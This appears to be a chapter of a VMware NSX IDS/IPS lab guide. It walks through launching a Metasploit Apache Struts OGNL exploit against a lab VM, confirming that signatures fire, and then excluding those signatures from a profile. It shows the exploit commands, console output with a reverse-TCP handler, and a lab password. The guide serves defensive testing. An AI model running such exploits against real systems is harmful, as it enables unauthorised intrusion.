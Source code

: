 
## 8. Advanced Attack and Configuration
**Estimated Time to Complete: 60 minutes**

In this **optional** exercise, we will explore some more advanced options in the NSX Distributed IDS/IPS Configuration
 * Tuning IDS/IPS Profile to turn off irrelevant signatures
 * Attempt to evade IDS/IPS detection by using obfuscations
 * Enable IDS/IPS event logging directly from each host to a syslog collector/SIEM

**Tuning IDS/IPS Profile to turn off irrelevant signatures**

> **Note**: Within an IDS/IPS Profile, you can define exclusions in order to turn off particular signatures within the context of that profile. Reasons to exclude signatures include false positives, noisy or irrelevant signatures being triggered.

1.	From the console session with  **External VM**, type **sudo msfconsole** to launch **Metasploit**. Enter **VMware1!** if prompted for a password. Follow the below steps to initiate the exploit. Hit **enter** between every step. 
    * Type **use exploit/multi/http/struts2_namespace_ognl** to select the drupalgeddon2 exploit module
    * Type **set RHOST 192.168.10.101** to define the IP address of the victim to attack. The IP address should match the IP address of **App1-WEB-TIER VM**
    * Type **exploit** to initiate the exploit.

> **Note**: This exploit will fail as  **App1-WEB-TIER VM** is not running an Apache Struts service vulnerable to this exploit.
    
```console
msf5 >  use exploit/multi/http/struts2_content_type_ognl
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf5 exploit(multi/http/struts2_content_type_ognl) > set RHOST 192.168.10.101
RHOST => 192.168.10.101
msf5 exploit(multi/http/struts2_content_type_ognl) > set RHOST 192.168.10.101
RHOST => 192.168.10.101
msf5 exploit(multi/http/struts2_content_type_ognl) > exploit

[*] Started reverse TCP handler on 10.114.209.151:4444
[-] Exploit aborted due to failure: bad-config: Server returned HTTP 404, please double check TARGETURI
[*] Exploit completed, but no session was created.
msf5 exploit(multi/http/struts2_content_type_ognl) >
```
2. In NSX Manager, navigate to Security --> East West Security --> Distributed IDS --> Events
3. Confirm 4 signatures have fired:
    * ET WEB_SPECIFIC_APPS Possible Apache Struts OGNL Expression Injection (CVE-2017-5638)
    * ET WEB_SPECIFIC_APPS Possible Apache Struts OGNL Expression Injection (CVE-2017-5638) M2
    * ET WEB_SPECIFIC_APPS Possible Apache Struts OGNL Expression Injection (CVE-2017-5638) M3
    ![](assets/images/IDPS_POC_21.PNG)
4. Note that the **affected product** for all these events is **Apache_Struts2** and the severity for all events is **high**.
5. Now we will turn off these signatures for the **Production** profiles as we are not running **Apache_Struts2** in our production environment.
6. In NSX Manager, navigate to Security --> East West Security --> Distributed IDS --> Profiles
7.	Click the **3 dots** next to the **Production** profile and click **Edit** to edit the profile.
8. Click **Select** next to **High Severity Signatures**
9. In the **Filter** field, type **Apache_Struts2** to find all signatures related to Struts2. Tick the **Checkbox** on top of the exclusion screen to select all filtered signatures.
![](assets/images/IDPS_POC_21.PNG)
10. Click **Add** to add the selected signatures to th exclusion list for the **Production** profile.
11. Click **Save** to save the **Production** profile.

Now that we have tuned our Profile, we will try the failed exploit attempt again, and confirm this time the signatures don't fire.

12.	From the already open console session with  **External VM**, use the already configured **struts2_namespace_ognl** Metastploit module to launch the exploit attempt again. 
    * Type **exploit** to initiate the exploit. If you had previously closed Metsploit, then repeat step #1 of this exercise instead to launch the exploit attempt
13. In NSX Manager, navigate to Security --> East West Security --> Distributed IDS --> Events
14. Confirm the total number of events or the number of times each **Apache_Struts2** signature fired has not increased.
![](assets/images/IDPS_POC_21.PNG)
15. You have now completed this exercise.

---

[***Next Step: 9. Segmentation***](/docs/9-Segmentation.md)
